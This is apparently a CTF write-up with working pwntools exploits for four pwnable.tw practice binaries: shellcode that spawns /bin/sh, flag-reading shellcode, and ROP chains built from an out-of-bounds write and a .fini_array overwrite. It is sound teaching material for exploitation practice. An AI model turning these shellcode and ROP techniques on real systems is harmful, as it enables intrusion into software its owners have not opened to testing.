










<div class="toc">
  <header class="nav__title">
    <i class="fas fa-list"></i> Contents
  </header>
  <nav class="toc__menu">
    <ul>
      <li><a href="#start">Start</a>
      </li>
      <li><a href="#orw">Orw</a>
      </li>
      <li><a href="#calc">Calc</a>
      </li>
    </ul>
  </nav>
</div>

<a id="start"></a>
# pwnable.tw - Start

# 1. Recon

Use cmd `file` for file description

```
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

Most of the pwnable tw chals are 32-bit since it very old, then checksec to see what securities is on

```
$ checksec start
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

this a easy on so all turn off. We need to focus on what the program do with the stack when it run.

```
   0x0804806e <+14>:	push   0x3a465443
   0x08048073 <+19>:	push   0x20656874
   0x08048078 <+24>:	push   0x20747261
   0x0804807d <+29>:	push   0x74732073
   0x08048082 <+34>:	push   0x2774654c
```

This can be reference as the sring `Let's start the CTF:` being push on stack:

```
   0x08048087 <+39>:	mov    ecx,esp        # String to be print out
   0x08048089 <+41>:	mov    dl,0x14        # Number of bytes will print
   0x0804808b <+43>:	mov    bl,0x1         # stdout
   0x0804808d <+45>:	mov    al,0x4         # syscall write
   0x0804808f <+47>:	int    0x80
```

Then, it will read in the data with number of byte is longer than the string above. The input string will overwrite the pushed string `Let's start the CTF:` on stack:

```
   0x08048091 <+49>:	xor    ebx,ebx        # stdin
   0x08048093 <+51>:	mov    dl,0x3c        # Number of byte read
   0x08048095 <+53>:	mov    al,0x3         # syscall read
   0x08048097 <+55>:	int    0x80
```

At the epilouge, it just add esp 0x14 to restore stack and return:

```
   0x08048099 <+57>:	add    esp,0x14
   0x0804809c <+60>:	ret
```

Input up to 0x3c but just add 0x14 show us that it's a **Simple BOF**:



And that's all we can find. Let's move on next part: Brainstorming!

Now we need to craft our shellcode then, push it on to stack by then we are able to get shell

Why we need to use ROP while we can input our shellcode? And with NX is off, our shellcode will be executed, is it right? Yes it's right. But the shellcode can be executed via a pointer point to our shellcode, not executed our shellcode it self. So our goal is to find out the pointer which point to our shellcode, then pass it to eip after the jump it will land in the location we store the shellcode

- Summary:

  1. Leak address

  2. Get shell

# 2. Exploit

### Stage 1: Leak address



Nothing's interesting except the highlighted ROP, it will help us print out 0x14 bytes of data on esp as you can see `mov ecx, esp`. When in GDB, we can also see that there will be a lot of stack address:



So leaking one of them will help us get the pointer point to our shellcode. And that ROP gadget is at `_start+38`, which means after that print out, it will get input from us again. So our first payload will look like this:

```
payload1 = b'A'*20                   # Padding to eip
payload1 += p32(0x08048086)          # ROP gadget
```

Running that first payload and we will get leak stack address, also we are prompted to input again



So we will write a script and take that address, then calculate the address that we will input the second time:

When we check in GDB after `int 0x80` of syscall write, we know that the leaked address is at `$esp + 0x8`:



When we are prompted to input the second time, we will just input string of `cyclic(0x14)` in to check at the second `ret`, where is our shellcode (string of `cyclic(0x14)`):



We can see that ecx contains the begining of our shellcode. With the leaked address, we will calculate the offset then the address of the begining of shellcode, then we pass it to eip. Offset can be calculate as 

```
offset = <Leak address> - <Begining of shellcode address>
offset = 0xff9e19e0 - 0xff9e19dc       # offset = 4
```

That's nice! We get everything we need. Let's move to stage 2.

### Stage 2: Get shell

Now we have address point to our shellcode, we just simply input our shellcode at the second input. But before we continue, we need to write string `/bin/sh\x00` somewhere and then move the pointer point to that string to ebx to execute execve.

The ideal place is after eip. after `ret`, since the eip being replaced with the address of our shellcode and the stack will add 0x4, which esp now contain pointer point to our string `/bin/sh\x00`. So in shellcode, we will make it move address of esp after second ret (contains string `/bin/sh\x00`) to ebx.

```
stack_leak = u32(p.recv(4))

payload2 = asm(''.join([
	'mov al, 0xb\n',
	'mov ebx, esp\n',
	'xor ecx, ecx\n', 
	'xor edx, edx\n',
	'int 0x80\n' 
	]), os='linux', bits=32)
payload2 = payload2.ljust(20, b'\x00')
payload2 += p32(stack_leak-4)
payload2 += b'/bin/sh\x00'
```

set breakpoint and si till here, we can see that after ret it will jump to our shellcode



So that's all and we get the shell. Full code [here](solve.py)

# 4. Get flag

```python 
from pwn import *
import subprocess

context.binary = ELF("./start", checksec=False)

# break at ret before the program end for debug
def GDB(command=''):
	command = '''
	b*0x0804809c 
	c
	'''
	input()         # input() to make program wait with gdb

# p = process('./start')
p = connect('chall.pwnable.tw', 10000)

payload = b'A'*20
payload += flat(0x08048086)

p.recvuntil(b'tart the CTF:')
p.send(payload)

stack_leak = u32(p.recv(4))

payload2 = asm(''.join([
	'mov al, 0xb\n',
	'mov ebx, esp\n',
	'xor ecx, ecx\n', 
	'xor edx, edx\n',
	'int 0x80\n' 
	]), os='linux', bits=32)
payload2 = payload2.ljust(20, b'\x00')
payload2 += p32(stack_leak-4)
payload2 += b'/bin/sh\x00'

p.send(payload2)
p.interactive()
```




<a id="orw"></a>
# pwnable.tw - orw

# 1. Recon

The program ask us to run with asm shellcode

I hate asm so much,it so complicate to understand but we still need to learn and practice it. 

# 2. Idea

One thing to noted that when writting shellcode we will have to use 3 syscall are `open` to open flag, `read` to read flag and store in a buffer and then `write` to write flag to screen. Remember that we need to open path `/home/orw/flag`, not just `flag`.

# 3. Exploit

So let's create a file with name `r.asm` to code assembly and I created a file named `compile.sh` to compile assembly code using `nasm`:

```bash
#!/bin/sh

nasm -f elf32 -o r.o r.asm
ld -m elf_i386 -s -o r r.o
```

And now we start to write our assembly code to get the flag. First, we will need to make the stack contain the string `/home/orw/flag` so that we can have a pointer point to that string later. By splitting 4 bytes from that string one by one, we can get those string as follows:

```python
u32('/hom')          -> 1836017711
u32('e/or')          -> 1919889253
u32('w/fl')          -> 1818636151
u32('ag\x00\x00')    -> 26465
```

the stack is `FILO` so we have to reverse the order:

```assembly
section .text
	global _start

_start:
	push 26465
	push 1818636151
	push 1919889253
	push 1836017711
```

Compile with the script file `compile.sh` above and attach to gdb, we can see the string is correct:



Next, Lookup for the syscall number and the argument for per syscall [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit). So we want to do a `open` syscall, check all the arguments now:

```assembly
    mov eax, 5
    mov ebx, esp
    mov ecx, 0
    mov edx, 0
    int 0x80
```

And the fd will be store in eax in case the file was opened successfully. Let's assume that the file was opened successfully and rax contain fd after syscall `open`. Let's read the flag with the fd we got:

```assembly
    mov ebx, eax
    mov eax, 3
    mov ecx, esp
    mov edx, 0x100
    int 0x80
```

Assuming again that the flag is read and ecx is containing the pointer point to the flag read. Print it out with syscall 0x80:

```assembly
    mov eax, 4
    mov ebx, 1
    int 0x80
```

All together full assembly code to python script and get the flag:

```python
from pwn import *

exe = context.binary = ELF('./orw', checksec=False)

# p = process(exe.path)
p = remote('chall.pwnable.tw', 10001)

payload = asm(
    '''
    push 26465
    push 1818636151
    push 1919889253
    push 1836017711

    mov eax, 5
    mov ebx, esp
    mov ecx, 0
    mov edx, 0
    int 0x80

    mov ebx, eax
    mov eax, 3
    mov ecx, esp
    mov edx, 0x100
    int 0x80

    mov eax, 4
    mov ebx, 1
    int 0x80
    ''', os='linux', arch='i386'
    )
p.sendafter(b'shellcode:', payload)
print(p.recvall())

p.interactive()
```

# 4. Get flag



<a id="calc"></a>

# pwnable.tw - calc
# 1. Recon

First thing first check file.

```bash
$ file calc
calc: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=26cd6e85abb708b115d4526bcce2ea6db8a80c64, not stripped

$ checksec calc
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

This is a 32-bit executable with some protections like canaries and NX. The calc program processes expressions and stores numbers in a pool.

In get_expr, it reads characters and checks if they're operators or numbers, adding them to the expression space. No backdoor here.

calc then uses `parse_expr` to handle the expression, allocating memory for numbers and evaluating them. There's a bug in how it handles operators and numbers, allowing us to manipulate the pool.

If we start with `+100`, we can make pool point to the stack at `pool[100]`. By adding expressions like `+100+200`, we can modify the stack.

# 2. Idea
With this bug, we can calculate the offset between pool and the saved `EIP` of main. We'll use this to execute a payload that calls execve with `/bin/sh.`

# 3. Exploit

### Stage 1: Create payload

First, we will make a ropchain so let's find some gadgets:

```bash
$ ROPgadget --binary calc > gadget

$ cat gadget | grep ": pop"
0x0805c34b : pop eax ; ret
...
0x080701d1 : pop ecx ; pop ebx ; ret
...
0x080701aa : pop edx ; ret
...

$ cat gadget | grep "int 0x80"
...
0x0807087e : nop ; nop ; int 0x80        # This gadget has ret
...
```


Choose a writable address, like `0x80eba00`. Calculate the offset between pool and the saved `EIP` of main, which is `0x170`.


This is saved ebp of main so saved eip of main will be `ebp + 4`, which is `0xffffcfec`. And the stack will look like this:


So the `pool` is at the address of `0xffffca28`. Let's calculate the distance:


We found the offset is `0x171`. Let's check that with just a simple script as follows:

```python
from pwn import *

context.binary = exe = ELF('./calc', checksec=False)
context.log_level = 'debug'

p = process(exe.path)
p.recvline()

input(str(p.pid))
eip = 0x171
payload = f'+{eip}+{0x500}'.encode()
p.sendline(payload)

p.interactive()
```


The highlighted address is address of `pool`. The address above `pool` is our expression. Let's check that:

```gdb
gef➤  # x/2xw <saved ebp of main>
gef➤  x/2xw 0xffc2dc88
0xffc2dc88:	0x08049c30	0x0804967a

gef➤  x/2xw 0xffc2d6c8 + 369*4 + 4
0xffc2dc90:	0x00000001	0xffc2dd14
```

We can see that saved eip of main is at `0xffc2dc88 + 4 = 0xffc2dc8c` but `pool[0x171]` points after saved eip. The correct offset now change to `0x170`.

We have everything now, let's write a simple payload as following:

```python
eip = 0x170
rw_section = 0x80eba00
pop_eax = 0x0805c34b
pop_ecx_ebx = 0x080701d1
pop_edx = 0x080701aa
int_80_ret = 0x0807087e

payload_list = [
	# read(0, rw_section, 0x200)
	pop_eax, 3,
	pop_ecx_ebx, rw_section, 0,
	pop_edx, 0x200,
	int_80_ret,
	pop_eax, 0xb,
	pop_ecx_ebx, 0, rw_section,
	pop_edx, 0,
	int_80_ret
	]
```

### Stage 2: Input payload

Now, we just simply input it from bottom to up with the index plus `0x170`, that's the distance between `pool` 
and saved eip of main:

```python
for i in range(len(payload_list)-1, -1, -1):
	payload = f'+{0x170+i}+{payload_list[i]}'.encode()
	p.sendline(payload)
```

Let's attach with gdb to check if it is correct or not:


We can't use `0` in our expressions, so we have to get creative to make a 4-byte null. We do this by using subtraction. For example, if you input `+368+512`, `pool[368]` gets `512`, and `pool[367]` becomes `512` too. To reset `pool[367]` to null, just input `+368-512`. Now `pool[368]` is `512`, and `pool[367]` is null.

The `pool` uses `int`, so we need to handle integer overflow to get null. Let's say `pool[367]` starts with `0xdeadbeef`. After `+368+512`, it becomes `0xdeadc0ef`. The program prints `-559038225`, which is `0xdeadc0ef`. We use Python's `struct` to convert `-559038225` back to `0xdeadc0ef` and calculate how much to add to reach `0x100000000`. The difference is `0x21523f11`, or `559038225` as an int.

In our case, we subtract both the printed number and the number we want to add. For example, if the printed number is `0xdeadc0ef` and we want to add `0x08040201`, we calculate `0x100000000 - 0xdeadc0ef - 0x08040201 = 0x194e3d10`, which is `424557840` as an int.

So put in function for easier to convert and get the number: 

```python
def getnum(num, need):
	if num<0:
		num = u32(struct.pack('<i', num))
	num = struct.unpack('<i', p32((0x100000000 - num - need)))[0]
	num = str(num)
	if '-' not in num:
		num = '+' + num
	return num
```

And the code will be updated to this:

```python
for i in range(len(payload_list)-1, -1, -1):
	# We don't want program print out anything unrelated to number
	if payload_list[i]==0:
		continue

	# If we have 4-byte null before current inputing number
	if payload_list[i-1]==0:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		p.sendline(payload)
		recv = int(p.recvline()[:-1])
		print(recv, payload_list[i])
		
		# If number is equal, just simply subtract
		if recv==payload_list[i]:
			payload = f'+{eip+i}-{payload_list[i]}'.encode()
			p.sendline(payload)
			p.recvline()
		# If number is not equal, means something added
		# Make previous number to opposite of number want to add of current number 
		else:
			t = getnum(recv, payload_list[i])
			payload = f'+{eip+i}{t}'.encode()
			p.sendline(payload)
			p.recvline()
			payload = f'+{eip+i}+{payload_list[i]}'.encode()
			p.sendline(payload)
			p.recvline()
		
	else:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		p.sendline(payload)
		p.recvline()
```


We get the null byte in our payload. Let's make it run to `ret` of main by input `\n` and check if we can input with syscall read or not. And of course, it wait for our input and I inputted `AAAAAAAABBBBBBBB`:


Let's `ni` and check for all of our payload to see if all the register is correct for a syscall of execve or not:


Nice! Let's finish our script by sending `\n` and string `/bin/sh\x00` to create shell:

```python
p.sendline()
p.send(b'/bin/sh\x00')
```

# 4. Get flag

We can get the flag at `/home/calc/flag`


# pwnable.tw - 3x17

# 1. Recon

```bash
$ file 3x17
ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a9f43736cc372b3d1682efa57f19a4d5c70e41d3, stripped

$ checksec 3x17
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

There's a function called `entry` that works like `__libc_start_main` and calls the function at `0x401b6d`, which we'll rename to `main`.


By running the program, we found that `FUN_00446ec0` is like `write`, and `FUN_00446e20` is like `read`. Another function in `main` is `FUN_0040ee70`, which processes an address, so we'll rename it to `parse_addr`.

Reading `parse_addr` is tricky, so let's use gdb-gef to debug it. We'll set a breakpoint after `parse_addr` and try different inputs to see what happens:

```gdb
gef➤  x/30i 0x401b6d    # main
   ...
   0x401be8:    mov    eax,0x0
   0x401bed:    call   0x40ee70
   0x401bf2:    cdqe   
   0x401bf4:    mov    QWORD PTR [rbp-0x28],rax

gef➤  b*0x401bf2
Breakpoint 1 at 0x401bf2
```

We're testing the `parse_addr` function by running the program and trying different inputs like numbers and letters. We use gdb-gef to see what `parse_addr` does.

Check out the images to see the results. Notice how `rax` shows `0x4d2`, which is `1234` in decimal, matching our input. This means `parse_addr` works like `atol`, converting input to a number. 

After converting, it reads user input to that address and exits. So, we can modify any writable address.

# 2. Idea

We can change three addresses at once, so let's focus on the function called after `main` returns, which acts like `exit`. Without libc, we can't use `one gadget`, and running `main` again just exits the program. I found a technique online to change the `.fini_array`, which is writable. 

The `exit` function calls `__libc_csu_fini`, which runs two functions in `.fini_array` in reverse order. By changing these to `main` and `__libc_csu_fini`, we create a loop that keeps calling `main`. This loop resets a global variable, letting us bypass checks.

We can find `__libc_csu_fini` by checking the `entry` point. With this loop, we can build a ROP chain to get a shell.

Summary:
- Stage 1: Overwrite `.fini_array`
- Stage 2: Get shell with ROP chain

# 3. Exploit

### Stage 1: Overwrite `.fini_array`

### Stage 1: Overwrite `.fini_array`

First, change `foo_destructor` to `main` so `__libc_csu_fini` calls `main` again. Change `_do_global_dtors_aux` to `__libc_csu_fini` to keep the loop going. We know `__libc_csu_fini` is at `0x402960`, `.fini_array` is at `0x4b40f0`, and `main` is at `0x401b6d`. Let's script the overwrite of `.fini_array`.


And with the images above, we know the address of `main` is `0x401b6d`. We know where to write and what to write, let's make a script to overwrite `.fini_array`:

```python
from pwn import *

exe = context.binary = ELF('./3x17', checksec=False)
context.log_level = 'debug'

p = process(exe.path)
# p = remote('chall.pwnable.tw', 10105)

fini_array = 0x4b40f0
libc_csu_fini = 0x0402960
main = 0x401b6d

payload = flat(libc_csu_fini, main)
p.sendafter(b'addr:', f'{fini_array}'.encode())
p.sendafter(b'data:', payload)

p.interactive()
```

### Stage 2: Get shell with ROPchain

Our payload will get input from user so that we can input string `/bin/sh` and then, execute syscall `execve` with inputted string to get the shell. Gadgets:

```bash
$ ROPgadget --binary 3x17 > gadget

$ cat gadget | grep ret | grep ": pop "
0x000000000041e4af : pop rax ; ret
...
0x0000000000401696 : pop rdi ; ret
...
0x0000000000446e35 : pop rdx ; ret
...
0x0000000000406c30 : pop rsi ; ret
...

$ cat gadget | grep ": syscall"
0x00000000004022b4 : syscall
```

So let's take `0x000000004b4a00` as a buff, payload now :

```python
pop_rax = 0x000000000041e4af
pop_rdi = 0x0000000000401696
pop_rdx = 0x0000000000446e35
pop_rsi = 0x0000000000406c30
syscall = 0x00000000004022b4
rw_section = 0x000000004b4a00
read_addr = 0x446e20
payload = flat(
    pop_rdi, 0,
    pop_rsi, rw_section,
    pop_rdx, 8,
    read_addr,
    pop_rax, 0x3b,
    pop_rdi, rw_section,
    pop_rsi, 0,
    pop_rdx, 0,
    syscall
    )
```

Remember to set `context.binary` before using `flat()`. The address `read_addr` is the function `read` we've renamed above.

Now, we will need to write our payload to somewhere so that program can execute. The idea is to do a stack pivot because we can see when it jumps to `__libc_csu_fini`, it will put a address which is writable to the rbp:


So if we can make the program execute `leave ; ret`, the stack will be `0x000000004b40f8` and it will return to the address on that stack. But `0x4b40f8` is the address of `.fini_array+8` so we will want to write our payload after `.fini_array` (which means we will write our payload at `.fini_array+0x10`). So the code will be as follows:

```python
for i in range(0, len(payload), 0x18):
    p.sendafter(b'addr:', f'{fini_array+0x10+i}'.encode())
    p.sendafter(b'data:', payload[i:i+0x18])
```

Let's attach with gdb to check if our payload is inputted correctly or not:


We can see that our payload is inputted correctly.

After we inputted payload, the program will jump back to main and run until the check in main is satisfy, which means it will run until it read from user input. Remember that `.fini_array` after we overwrited look likes:

- `__libc_csu_fini`
- `main`

So after the next input (`main`), it will jump to `__libc_csu_fini`. We first will want to change `__libc_csu_fini` to gadget `leave ; ret` so that we can pivot the stack. 

After `leave` instruction, the program will return back to `main` (we didn't change that, just have change `__libc_csu_fini`) so we will want to change `main` into a `ret` instruction. Overall, we will want to change the `.fini_array` to

- `leave ; ret`
- `ret`

Let's find those 2 gadget or just find the gadget `leave ; ret` and then add `1` because `leave` takes 1 byte:

```bash
$ cat gadget | grep ": leave ; ret"
0x0000000000401c4b : leave ; ret
```

And let's overwrite `.fini_array`:

```python
leave_ret = 0x0000000000401c4b
ret = leave_ret + 1
p.sendafter(b'addr:', f'{fini_array}'.encode())
p.sendafter(b'data:', flat(leave_ret, ret))
```

Let's run and attach with gdb to know if it can run our ROPchain. Stop at the call to a function inside `.fini_array` in `__libc_csu_fini` and check the `.fini_array`:


Aha! We can see the `leave ; ret` gadget. Let's type `si` to see the stack change:


And the program execute `ret` again to jump into our payload. Well, let's make it send the string `/bin/sh\x00` and we can get the shell:

```python
input("Press ENTER to continue...")
p.send(b'/bin/sh\x00')
```

Why I added `input()`? Because with the last input into `main`, we just write `0x10` bytes, `8` bytes left, so if we send it continuously without hesitation, our string `/bin/sh\x00` may input to that 8 bytes left and the payload is corrupted.

# 4. Get flag

The flag is at `/home/3x17`.

